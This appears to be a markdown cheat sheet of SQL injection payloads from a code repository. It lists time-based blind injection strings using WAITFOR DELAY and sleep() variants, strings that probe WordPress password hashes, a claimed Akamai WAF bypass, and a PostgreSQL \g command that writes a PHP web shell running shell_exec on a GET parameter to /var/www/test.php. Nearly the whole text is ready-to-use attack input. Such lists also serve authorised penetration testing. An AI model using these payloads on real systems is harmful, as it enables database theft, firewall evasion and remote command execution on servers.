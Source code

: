 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
10008 WAITFOR DELAY '0:0:5'
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
/**/WHEN(LENGTH(​version()​)=​10​)THEN(SLEEP(6*1))END
%2c(select*from(select(sleep(20)))a)
{{"sleep"%2c"13"})}${{"timeout"%2c"13"})
+UNION+SELECT+1,2,3,CONCAT(user(),version(),database()),5,6,7,8--+r0hack"}
{sleep(hexdec(dechex(13)))}${sleep(hexdec(dechex(13)))}
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'+(select*from(select(sleep(20)))a)+'
%20and%20(select%20*%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true (sleeps 5 sec)
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
```
## Akami WAF Bypass
```sql
'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
```

## You can use the PostgreSQL \g command in your SQLi to create a file on the server. 
```sql
' UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --
```
**Example**<br>
[![img](https://pbs.twimg.com/media/EpNcPxHW8AEP2v1?format=jpg&name=large)](https://twitter.com/bugbountynights/status/1338515958567227393?s=20)
